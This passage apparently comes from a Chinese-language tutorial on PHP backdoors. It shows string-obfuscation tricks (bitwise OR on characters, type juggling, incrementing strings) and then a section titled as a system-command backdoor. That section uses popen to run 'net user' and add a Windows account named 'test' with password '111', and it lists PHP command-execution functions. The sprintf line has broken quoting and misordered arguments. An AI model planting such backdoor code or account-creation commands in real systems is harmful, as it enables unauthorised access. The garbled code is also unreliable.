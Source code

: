 ```php
<?php
    echo 'a'|'d';//e!  
?>
```

字符串和数字的强转:

```php
<?php  
    $_="abc";
    echo $_+1;  //1
?>

<?php  
    $_="1abc";
    echo $_+1;  //2
?>
```

字符串会被强制[转换](http://www.blogjava.net/zuofei-bie/archive/2010/03/31/317092.html)成数字，如果不能转，就返回0

```php
<?php  
    $_="abc";  
    echo ++$_;  //abd  
?>
# 这种"++"和"+"的表现形式还不太一样，"++"是把字符串最后一个字母进行"+1"
```

### 0x23: 使用PHP的管道技术执行系统命令后门&#x20;

[`open`](http://www.w3school.com.cn/php/func\_filesystem\_popen.asp)`()`

```php
<?php
    /*
        PHP中如何增加一个系统用户
        下面是一段例程，
        用户名: test
        密码是: 111
    */
    $command = "net user";
    $useradd = "add ";
    $pwd = "111";
    $user = "test";  
    $user_add = sprintf("%s "%s %s"", $command, $useradd, $user, $pwd);
    $fp = @popen($user_add,"w");  
    @pclose($fp);
?>


```

命令执行成功，添加账户成功。PHP执行命令有很多方法，`eval`、`passthru`、`system`、`assert`、`popen`、`exec`、`shell_exec`
